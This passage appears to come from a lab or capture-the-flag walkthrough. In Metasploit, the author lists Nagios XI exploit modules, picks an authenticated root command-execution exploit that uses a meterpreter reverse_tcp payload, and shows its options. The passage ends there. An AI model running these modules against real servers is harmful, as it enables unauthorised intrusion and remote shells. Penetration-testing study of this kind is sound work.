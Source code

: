 ````commandline
   2   exploit/linux/http/nagios_xi_mibs_authenticated_rce                  2020-10-20       excellent  Yes    Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection
   3   exploit/linux/http/nagios_xi_chained_rce                             2016-03-06       excellent  Yes    Nagios XI Chained Remote Code Execution
   4   exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo         2018-04-17       manual     Yes    Nagios XI Chained Remote Code Execution
   5   post/linux/gather/enum_nagios_xi                                     2018-04-17       normal     No     Nagios XI Enumeration
   6   exploit/linux/http/nagios_xi_magpie_debug                            2018-11-14       excellent  Yes    Nagios XI Magpie_debug.php Root Remote Code Execution
   7   exploit/unix/webapp/nagios_graph_explorer                            2012-11-30       excellent  Yes    Nagios XI Network Monitor Graph Explorer Component Command Injection
   8   exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution
   9   exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce      2020-12-19       excellent  Yes    Nagios XI Prior to 5.8.0 - Plugins Filename Authenticated Remote Code Exection
   10  auxiliary/scanner/http/nagios_xi_scanner                                              normal     No     Nagios XI Scanner
   11  exploit/unix/webapp/nagios3_history_cgi                              2012-12-09       great      Yes    Nagios3 history.cgi Host Command Execution
   12  exploit/unix/webapp/nagios3_statuswml_ping                           2009-06-22       excellent  No     Nagios3 statuswml.cgi Ping Command Execution


Interact with a module by name or index. For example info 12, use 12 or use exploit/unix/webapp/nagios3_statuswml_ping
````

It is sometimes an issue to find back the exploit in the `msfconsole` from the info you gathered on [exploit-db](https://www.exploit-db.com) as wel as other vulnerability database websites. They do not keep the same names and description somehow, and they do not update older released information/code either. So I had to look with the info command 8 times :-D I preferred to look at the info of each of them to be sure. But in this case, I could have found it easier because in the description of the function of the code on [exploit-db](https://www.exploit-db.com) there is noted `This module exploits a vulnerability in Nagios XI before 5.6.6 in order to execute arbitrary commands as root.`. So let's use it.

````commandline
msf6 > use 8
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >
````

We now need to look at the options and to what we need to define.

````commandline
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options
                                                                                                                                                                  
Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signing the license agreement.
   PASSWORD                         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
````